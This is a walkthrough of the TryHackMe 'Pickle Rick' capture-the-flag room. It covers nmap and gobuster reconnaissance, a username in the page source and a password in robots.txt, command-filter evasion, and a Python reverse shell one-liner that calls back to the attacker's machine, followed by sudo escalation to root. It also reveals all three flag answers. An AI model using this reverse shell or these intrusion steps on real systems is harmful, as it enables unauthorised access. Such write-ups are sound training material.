 Room: https://tryhackme.com/room/picklerick

After a scanning with nmap, we can see that ports 22 and 80 are open.  

Port 80 - is the website we're currently inspecting, at http://[machine_ip].  
Port 22 - is the SSH service running, which may be useful at a later time.

We can run a directory bruteforcing tool to scan the website, in order to discover hidden directories.   

Personally, I'll use gobuster, but dirbuster can be used as a GUI alternative.  

While the scan is running, I had a quick look at the main page's source code. We see that the developers left some notes for themselves.   

> Username: R1ckRul3s

In the meanwhile, the directory bruteforcing has finished. We found a few interesting results.  

First of all, the file robots.txt contains some (maybe) useful information: **Wubbalubbadubdub**  

Using the username found earlier and the text inside robots.txt we can log in as Rick in the /login.php page.  

There we find a command panel, the other links being unavaible. Using the **ls** command it returns the files inside the current directory.  

###### The output of **ls** command  

>Sup3rS3cretPickl3Ingred.txt  
>assets  
>clue.txt  
>denied.php  
>index.html  
>login.php  
>portal.php  
>robots.txt   

The downside is that the **cat** command is disabled.  

Using some bash, we can use __while read line; do echo $line; done <Sup3rS3cretPickl3Ingred.txt__  

The output of the file content is **mr. meeseek hair**, being the **first** flag we need for this CTF. **[1]**

We can read the **clue.txt** file using the same method as before.  
>Look around the file system for the other ingredient.

Since Python is installed on the remote machine, I used a python reverse shell and started a netcat listener on the attacking machine. 

```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("MY_MACHINE_IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```
* Use pty.spawn("/bin/bash") at the end for spawning a bash shell insdead of a sh. 

We get a reverse shell as www-data user. After checking the SUDO permissions, we see that this user has permission to run any command with sudo privileges, which makes it really easy for us to find the other two flags on the system.  

By using the **sudo su root** command, we can switch to the user **root**.  

The second **flag** is **1 jerry tear** and is located at **/home/rick**. **[2]**  

The third and final **flag** is **fleeb juice** and is located inside the **/root** directory. **[3]**
